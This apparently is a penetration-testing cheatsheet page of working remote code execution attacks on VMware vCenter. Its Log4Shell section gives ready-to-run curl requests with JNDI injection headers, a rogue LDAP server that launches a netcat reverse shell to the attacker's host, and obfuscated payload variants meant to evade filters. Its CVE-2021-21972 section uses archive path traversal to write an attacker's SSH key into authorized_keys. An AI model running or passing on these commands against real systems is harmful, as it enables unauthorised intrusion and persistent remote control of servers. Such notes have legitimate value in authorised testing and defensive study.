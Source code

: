 ```yaml
---
layout: post
title: pen / rce / 2021
category: pen
parent: cheatsheets
modified_date: 2022-02-14
permalink: /pen/rce/2021
---
```


**Mitre Att&ck Entreprise**: 
* [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)
* [T1210  - Exploitation of Remote Services](https://attack.mitre.org/techniques/T1210/)

**Menu**
<!-- vscode-markdown-toc -->
* [CVE-2021-44228 - VCenter](#CVE-2021-44228-VCenter)
* [CVE-2021-44228 - VCenter](#CVE-2021-44228-VCenter-1)
* [CVE-2021-21972 - VCenter](#CVE-2021-21972-VCenter)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='CVE-2021-44228-VCenter'></a>CVE-2021-44228 - VCenter

```
# install
git clone https://github.com/veracode-research/rogue-jndi.git
apt install default-jdk
apt install java-common
apt install java-package

# check if Vcenter version is vulnerable
curl -ski https://1.2.3.4/ui/login | grep Location

# tmux windows 0 splitting
Ctrl-b %
Ctrl-b ->
Ctrl-b "

## cmds to run consequently in tmux windows 1, 2 and 3 

# HOOK STEP 1: rogue CURL query that hook VCenter to make an LDAP query 
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://1.1.1.1:1389/o=tomcat}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

# HOOK STEP 2: run a rogue LDAP server that hook VCenter, executing netcat back to us 
sudo java -jar target/RogueJndi-1.1.jar --command "nc -e /bin/bash 1.1.1.1 4242" --hostname "1.1.1.1"

# CHECK: 1/ the LDAP, and 2/ the netcat, hooks come back
sudo tcpdump -ni eth0 host 1.2.3.4

# tmux windows 1 splitting
Ctrl-b c
Ctrl-b %
Ctrl-b ->
Ctrl-b "

# REVERSE SHELL: 
nc -lvnp 4242
```

## <a name='CVE-2021-44228-VCenter-1'></a>CVE-2021-44228 - VCenter

```
# install

# HOOK STEP 1: rogue CURL query that hook VCenter to make an LDAP query 
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://1.1.1.1:1389/o=tomcat}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${env:ENV_NAME:-j}ndi\${env:ENV_NAME:-:}\${env:ENV_NAME:-l}dap\${env:ENV_NAME:-:}//1.1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${::-j}\${::-n}\${::-d}\${::-i}:\${::-l}\${::-d}\${::-a}\${::-p}://1.1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="


curl --insecure  -vv -H "X-Forwarded-For: \${\${lower:j}ndi:\${lower:l}\${lower:d}a\${lower:p}://1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="


${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```
## <a name='CVE-2021-21972-VCenter'></a>CVE-2021-21972 - VCenter
```
sudo python3 CVE-2021-21972.py -t 1.2.3.3 -f /root/.ssh/id_rsa.pub -p /home/vsphere-ui/.ssh/authorized_keys -o unix
git clone https://github.com/ptoomey3/evilarc.git
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p '/home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
cd ../CVE-2021-21972/
sudo python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.4
```